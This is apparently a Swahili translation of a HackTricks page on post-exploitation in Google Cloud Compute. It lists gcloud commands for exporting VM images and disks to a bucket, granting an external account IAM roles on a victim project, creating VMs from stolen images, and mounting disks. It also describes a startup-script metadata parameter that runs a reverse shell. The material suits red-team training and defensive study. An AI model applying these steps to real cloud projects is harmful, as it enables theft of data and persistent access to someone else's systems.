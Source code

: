 # GCP - Compute Post Exploitation

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Compute

Kwa habari zaidi kuhusu Compute na VPC (Networking) angalia:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

Hii ingewezesha mshambuliaji **kupata data iliyomo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VM zinazoendesha** na kupata data yao bila kuwa na ufikiaji kwenye VM inayoendesha.

Inawezekana kuuza picha ya VM kwa ndoo na kisha kuipakua na kuimounti kwa kienyeji kwa amri:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Kabla ya kutekeleza hatua hii, mkaidi anaweza kuhitaji mamlaka juu ya chombo cha kuhifadhi na kwa hakika **mamlaka juu ya cloudbuild** kwani ni **huduma** ambayo itaulizwa kutekeleza kuuza nje. Aidha, ili hii ifanye kazi, chombo cha kujenga kificho na chombo cha kuhesabu kinahitaji ruhusa za kipekee. Chombo cha kujenga cha cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` kinahitaji:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Na SA `<project-id>-compute@developer.gserviceaccount.com` inahitaji:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Kuuza Nje & Kuchunguza Picha na Disks kwa Kitaalam Mahali Pengine

Si rahisi kuuza moja kwa moja picha na diski, lakini ni rahisi kubadilisha picha kuwa diski, diski kuwa picha na kufuata **sehemu iliyopita**, kuuza nje picha hiyo kuchunguza kwa kitaalam mahali pengine

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kuchunguza Picha na Kuunda VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye picha** au ndani ya **VM inayotumika** ambapo mshambuliaji **ameunda picha,** inawezekana kutoa ufikiaji wa akaunti ya nje juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha tengeneza VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa haukuweza kutoa ufikiaji wa akaunti yako ya nje juu ya picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa waathiriwa na **kufanya metadata kutekeleza reverse shell** ili kupata ufikiaji wa picha kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Angalia Picha ya Diski ikiiunganisha kwenye VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye diski au picha ya diski, unaweza kubadilisha picha ya snapshot kuwa disk, disk kuwa picha na kufuata hatua zilizopita.**

Au unaweza **kutoa akaunti ya nje upatikanaji** kwenye disk (ikiwa hatua ya kuanzia ni snapshot toa upatikanaji kwenye snapshot au unda disk kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Ambatisha diski** kwa kifaa:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Funga diski ndani ya VM:

1.  **SSH kuingia kwenye VM**:

```sh
gcloud compute ssh [JINA_LA_KIFAA] --zone [ENEOKA]
```
2. **Tambua Diski**: Mara baada ya kuingia kwenye VM, tambua diski mpya kwa kuorodhesha vifaa vya diski. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fomati na Funga Diski** (ikiwa ni diski mpya au isiyo na fomati):
*   Unda sehemu ya kufunga:

```sh
sudo mkdir -p /mnt/disks/[DIRA_YA_KUFUNGA]
```
*   Funga diski:

```sh
sudo mount -o discard,defaults /dev/[KIFAA_CHA_DISKI] /mnt/disks/[DIRA_YA_KUFUNGA]
```

Ikiwa **hauwezi kutoa ufikiaji kwa mradi wa nje** kwa nakala rudufu au diski, unaweza kuhitaji k**ufanya hatua hizi ndani ya kifaa katika mradi huo huo kama nakala rudufu/diski**.
